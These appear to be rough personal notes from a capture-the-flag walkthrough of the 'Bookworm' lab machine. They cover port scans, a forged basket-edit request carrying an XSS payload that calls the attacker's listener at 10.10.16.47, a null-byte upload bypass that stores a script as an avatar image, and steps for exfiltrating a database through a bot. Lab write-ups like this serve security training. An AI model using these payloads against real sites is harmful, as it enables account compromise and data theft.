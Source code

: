 Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:44 EDT
Nmap scan report for 10.10.11.215
Host is up (0.81s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.09 seconds


nmap -p22,80 -sCV 10.10.11.215 -oN targeted 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:49 EDT
Nmap scan report for 10.10.11.215
Host is up (0.36s latency).                                                                                          
                                                                                                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 811d2235dd2115644a1fdc5c9c66e5e2 (RSA)
|   256 01f90d3c221d948306a4967a011c9ea1 (ECDSA)
|_  256 647d17179179f6d7c48774f8a216f7cf (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://bookworm.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.33 seconds

Looking at the site we go to login page

![](20230717235251.png)

after /register

we look at a shop

aaa just added Through the Looking-Glass to their basket!

just now
Sally Smith just added The Hunting of the Snark: An Agony in Eight Fits to their basket!

just now

so Sally Smith is a user

/login                (Status: 200) [Size: 2040]
/register             (Status: 200) [Size: 3093]
/profile              (Status: 302) [Size: 28] [--> /login]
/shop                 (Status: 200) [Size: 11153]
/static               (Status: 301) [Size: 179] [--> /static/]
/Login                (Status: 200) [Size: 2034]
/logout               (Status: 302) [Size: 23] [--> /]
/basket               (Status: 302) [Size: 28] [--> /login]
/Register             (Status: 200) [Size: 3093]
/Profile              (Status: 302) [Size: 28] [--> /login]
/Shop                 (Status: 200) [Size: 11556]

we reach the /basket page

tried xss nothign happened

always try xss with a <image src="http://10.10.16.47:8000">

this worked
```
found
10.10.16.47 - - [18/Jul/2023 01:24:06] "GET /new HTTP/1.1" 404 -
```

when we look at ht ebooks added by the bots

![](20230718013703.png)

<div class="row mb-2">
            <!-- 2377 --> // does this indicate the basket number?
            <div class="col-3"><img class="img-fluid" src="/static/img/uploads/1"></div>
            <div class="col-9"><strong>Joe Bubbler</strong> just added <a href="/shop/6">The Pirate Woman</a> to their basket!<p class="mb-0 text-muted">1 minute ago</p></div>            
</div>

trying to forge an edit request for this

```
POST /basket/2377/edit HTTP/1.1
Host: bookworm.htb
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bookworm.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bookworm.htb/basket
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6ImFhYSIsImF2YXRhciI6Ii9zdGF0aWMvaW1nL3VzZXIucG5nIn19; session.sig=kmagEFwIlOkM7KMvDRk57wvzgqI
Connection: close

quantity=1&note=<img+src%3d"http%3a//10.10.16.47%3a8000/new">
```

![](20230718030327.png)

updating the avatar image successfull

had to add %00 in front og th epng

then we do xss calling the uploaded image

![](20230718031316.png)

note updated:
```
<script src="/static/img/uploads/14"></script>
<img src="http://10.10.16.47:8000/yolo">
```

and we got the post request at

![](20230718032815.png)



steps to do to get user flag:
1. get the bot id from page inspection
2. change the avatar with the mod_pdf_viewer.js, ensure that you add %00.png to the file and change the type to image/png at /profile
3. get the smae book as the bot
4. got to /basket, edit text
5. in the edit text add 
<script src="/static/img/uploads/14"></script> which points to the image
6. click on complete checkout while running the python server for collecting the post requests
7. you should have a sdatabase file with the password then

587

<script src="/static/img/uploads/14"></script>

most infuriatingly just when you think you may have had a break through
this comes in picture

![](20230719022646.png)

problem with following this

![](20230719060109.png)

